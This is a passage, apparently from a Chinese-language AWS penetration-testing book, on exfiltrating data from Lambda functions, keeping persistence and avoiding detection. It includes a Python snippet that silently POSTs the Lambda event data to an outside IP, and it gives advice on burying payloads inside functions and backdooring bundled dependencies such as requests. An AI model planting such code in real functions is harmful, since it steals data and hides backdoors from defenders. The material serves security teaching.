 接收包含 Lambda 函数所有环境变量的 POST 请求

# 数据外泄

数据外泄很可能与我们之前提升权限的方式非常相似，即我们很可能编辑现有函数并从中外泄数据。我们可以通过多种不同的方式来实现这一点，其中一些列在这里：

+   修改现有函数并通过`"event"`和`"context"`参数外泄数据

+   创建一个新的函数和相关触发器来响应 AWS 环境中的某些事件，例如在第十一章中，*使用 Boto3 和 Pacu 来维持 AWS 持久性*，我们每次创建新用户时就将凭据外泄

+   修改现有函数，并将我们的外泄有效负荷放置在函数中间的某个位置，以外泄在函数正常执行期间被收集/修改的数据

这里还有许多其他攻击向量；你只需要有创造力。

如果我们只是想要我们的有效负荷外泄传递到 `"event"` 参数中的值，我们可以使用前一个有效负荷的略微修改版本：

```

try:
    from botocore.vendored import requests
    requests.post('http://1.1.1.1', json=event, timeout=0.01)
except:
    pass

```

确保注意 Lambda 函数的指定超时时间。你不希望你的外泄占用太长时间，以致 Lambda 函数超时并完全失败，因此，当通过 Lambda 外泄大量数据时，最好要么确保超时已经设置为很长的时间，要么自己去修改它以增加超时时间。问题在于，目标的 Lambda 账单会增加，因为它们的函数完成所需时间比正常情况下要长，这将引起注意。

# 持久性

我们不打算深入探讨持久性，因为我们在上一章已经涵盖了这一点，但是，和攻击 Lambda 的其他方法一样，持久性可以通过新的 Lambda 函数或编辑现有的 Lambda 函数来建立。持久性也可能意味着一些不同的事情。你想要对 Lambda 函数持久访问 bash shell，还是想要对 AWS 环境进行持久访问，或者两者都要？这完全取决于上下文和作为攻击者所处的情况最适用的是什么。甚至可能值得在多个 Lambda 函数中设置后门，以防其中一个被捕捉并被防御者移除。

# 保持潜伏

这是你可以发挥创造力的地方。显然，向发送数据到随机 IP 地址的函数中添加的随机代码将会引起熟悉该代码并重新审视它的任何人的怀疑。在这种情况下，捕捉到的指标可能甚至没有被捕捉到的提示，但是开发人员碰巧注意到 Lambda 函数中的这段奇怪的代码，并提出了一个问题，然后你被抓住了。如果在整个函数的开头放置恶意代码，那么这将会更明显，因此在代码的某处嵌套你的有效负荷将有所帮助。

将负载放置在入口函数（`lambda_handler()`）中不会改变任何内容，并且几乎不可能被人工审查/发现的地方怎么样？听起来好像太好了，但这不是真的！恶意黑客多年来一直在使用类似的技术，使其软件/硬件后门能够长时间保持活动状态，所以让我们将这种技术应用到 Lambda 中，并保持低调！

这种技术涉及到给 Lambda 函数依赖项设置后门。并非每一个你可能需要的库都包含在 Lambda 的基本库集中，就像我们在直接`import requests`时看到的那样，所以开发人员被迫自行收集这些依赖项，并将它们与其余的代码一起上传到 Lambda。我们将简要介绍一个简单示例。

假设我们无法通过`from botocore.vendored import requests`导入`requests`库，并且我们需要将该库包含在我们的 Lambda 代码中。可以通过将`requests`库与我们的基本 Lambda 代码一起包含，并将其上传为`.zip`文件到 Lambda 来解决这个问题。

对于这个示例，我们有一个`lambda_function.py`文件，导入了`requests`并向[`google.com/`](https://google.com/)发出请求，然后打印响应文本。`requests`库以其全部内容包含在旁边，以允许在以下截图中的第 2 行代码中使用`import requests`。`requests`库还需要`chardet`、`urllib3`、`idna`和`certify`库，因此这些也已被包含进来：

![](img/0ed9d39c-4529-40a5-b318-752f416e69eb.png)
